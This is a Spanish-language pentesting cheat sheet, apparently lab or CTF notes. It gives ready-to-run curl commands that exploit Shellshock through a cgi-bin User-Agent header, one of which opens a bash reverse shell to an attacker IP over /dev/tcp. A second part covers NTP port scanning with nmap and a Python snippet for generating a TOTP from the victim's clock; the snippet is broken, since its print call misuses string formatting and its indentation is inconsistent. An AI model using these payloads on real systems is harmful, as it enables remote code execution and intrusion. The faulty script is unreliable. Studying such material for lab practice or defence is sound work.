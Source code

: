 Ejemplo de como se acontece un Shellshock attack en la ruta cgi-bin con el comando `` curl `` modificando el "User-Agent".<br>
Lo que hace el siguiente comando es hacer una petición HTTP al sitio web mediante el método GET enviando una cabecera que contiene código malicioso que permite ejecutar el comando whoami en el sistema para saber quien es el usuario que ejecuta el servidor web.  

```
curl -s -X GET "http://192.168.0.54/cgi-bin/" -H "User-Agent: () { :; }; /usr/bin/whoami"

# -s -> Ejecuta el modo silencioso para que no se muestre el progreso ni la información adicional en la salida.
# -X GET -> Especifica el método HTTP utilizado para la solicitud, en este caso, GET.
# "http://192.168.0.54/cgi-bin/" -> Es la URL a la que se realiza la solicitud.
# -H "User-Agent: () { :; }; /usr/bin/whoami" -> Es un encabezado personalizado que se envía con la solicitud HTTP. 
# Este encabezado establece el User-Agent en () { :; }; /usr/bin/whoami para ejecutar el comando whoami.
```
<br>
En caso de obtener como respuesta un Internal Server Error, es necesario añadir un "echo;" en el User-Agent.
```
curl -s -X GET "http://192.168.0.54/cgi-bin/" -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
```
<br>
Enviarte una reverse shell explotando la vulnerabilidad ShellShock Attack.
```
curl -s -X GET "http://192.168.0.54/cgi-bin/" -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/192.168.0.62/443 0>&1"
```


<br><br>
## UPD 123 NTP (Network Time Protocol)
Protocolo utilizado para sincronizar el reloj de las maquinas conectadas. En ocasiones algunos ataques no suele funcionar sino esta sincronizada tu hora con la de la maquina víctima.
<br>
<br>
Ver si el puerto 123 esta abierto por UDP.
```
nmap --top-ports 500 --open -sU -t5 -vvv -n -Pn <ip-address> -oG udpPorts 
```
<br>
Detectar el servicio que corre en el puerto 123 al igual que la diferencia de tiempo entre tu maquina y la maquina victima.
```
nmap -sU -sCV -p123 ip-address -oN targeted
```
<br>
Se requiere instalar las siguientes librerías:
```
pip3 install pyotp ntplib
```
<br>
Sincronizar tu hora a la de la máquina víctima de forma temporal para obtener un TOTP.
``` 
	#!/usr/bin/python3
	import pyotp
	import ntplib
	from time import ctime
  
        client = ntplib.NTPClient()
        response = client.request("ip-address")
        totp = pyotp.TOTP("aqui_va_otp_token")
  
        print("El token es -> " % totp.at(response.tx_time))
```